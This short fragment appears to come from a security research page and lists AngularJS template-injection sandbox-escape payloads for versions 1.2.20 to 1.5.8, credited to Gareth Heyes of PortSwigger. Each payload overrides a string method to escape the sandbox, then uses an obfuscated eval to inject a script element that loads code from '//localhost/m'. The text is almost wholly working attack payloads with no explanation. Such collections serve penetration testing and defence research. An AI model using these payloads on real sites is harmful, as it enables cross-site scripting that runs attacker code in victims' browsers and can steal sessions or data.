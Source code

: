   

1.2.20 - 1.2.29 by Gareth Heyes (PortSwigger)

  

```javascript

{{

a="a"["constructor"].prototype;a.charAt=a.trim;

$eval('a",eval(`

var _=document\\x2ecreateElement(\'script\');

_\\x2esrc=\'//localhost/m\';

document\\x2ebody\\x2eappendChild(_);`),"')

}}

```

  

1.3.0 - 1.3.9 by Gareth Heyes (PortSwigger)

  

```javascript

{{

a=toString().constructor.prototype;a.charAt=a.trim;

$eval('a,eval(`

var _=document\\x2ecreateElement(\'script\');

_\\x2esrc=\'//localhost/m\';

document\\x2ebody\\x2eappendChild(_);`),a')

}}

```

  

1.4.0 - 1.5.8 by Gareth Heyes (PortSwigger)

  

```javascript

{{

a=toString().constructor.prototype;a.charAt=a.trim;

$eval('a,eval(`var _=document.createElement(\'script\');

_.src=\'//localhost/m\';document.body.appendChild(_);`),a')

}}

```

